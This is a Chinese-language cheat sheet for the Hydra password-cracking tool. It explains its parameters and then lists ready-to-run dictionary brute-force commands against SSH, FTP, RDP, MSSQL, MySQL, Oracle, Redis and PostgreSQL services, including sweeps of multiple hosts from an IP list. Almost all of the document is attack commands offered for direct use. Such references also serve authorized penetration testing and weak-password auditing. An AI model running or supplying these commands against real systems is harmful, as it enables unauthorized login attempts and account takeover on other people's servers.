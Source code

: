 ### 参数

- `-R`:继续从上一次进度接着破解。
- `-S `:采用SSL链接。
- `-s PORT `:可通过这个参数指定非默认端口。
- `-l LOGIN`:指定破解的用户，对特定用户破解。
- `-L FILE `:指定用户名字典。
- `-p PASS`:指定密码破解，少用，一般是采用密码字典。
- `-P FILE`:指定密码字典。
- `-e ns`:可选选项，n：空密码试探，s：使用指定用户和密码试探。
- `-C FILE`:使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
- `-M FILE `:指定目标列表文件一行一条。
- `-o FILE`:指定结果输出文件。
- `-f `:在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
- `-t TASKS`: 同时运行的线程数，默认为16。
- `-w TIME`:设置最大超时的时间，单位秒，默认是30s。
- `-v / -V `: 显示详细过程。

### 常用指令

```powershell
ssh
hydra -L /root/user -P /root/passwd ssh://192.168.1.0 -f -o /root/crack.txt -V
ftp
hydra -L /root/user -P /root/passwd ftp://192.168.1.0 -f -o /root/crack.txt -V
rdp
hydra -L /root/user -P /root/passwd rdp://192.168.1.0 -f -o /root/crack.txt -V
mssql
hydra -L /root/user -P /root/passwd mssql://192.168.0.129 -f -o /root/crack.txt -v
mysql
hydra -L /root/user -P /root/passwd mysql://192.168.0.129 -f -o /root/crack.txt –v -s 3306
oracle
hydra -P /root/passwd oracle://192.168.0.129 -f -o /root/crack.txt –v
redis
hydra -P /root/passlist.txt -e nsr -t 16 192.168.0.101 redis
postgresql 弱口令检测
hydra -P /root/passlist.txt -e nsr -t 16 192.168.0.101 postgresql
指定多个ip进行穷举
hydra -L /root/user -P /root/passlist -M /root/ip.txt  -V -o /root/crack mysql -t 16
hydra -L /root/user -P /root/passlist ssh://192.168.0.112 -vV -f
hydra -L /root/user -P /root/passlist ssh://192.168.0.112 -vV -f -o /root/crack.txt
hydra -L /root/user -P /root/passlist ftp://192.168.0.106 -vV -f -o /root/crack.txt
hydra -l sa -P /root/passlist mssql://192.168.0.103 –vV
```

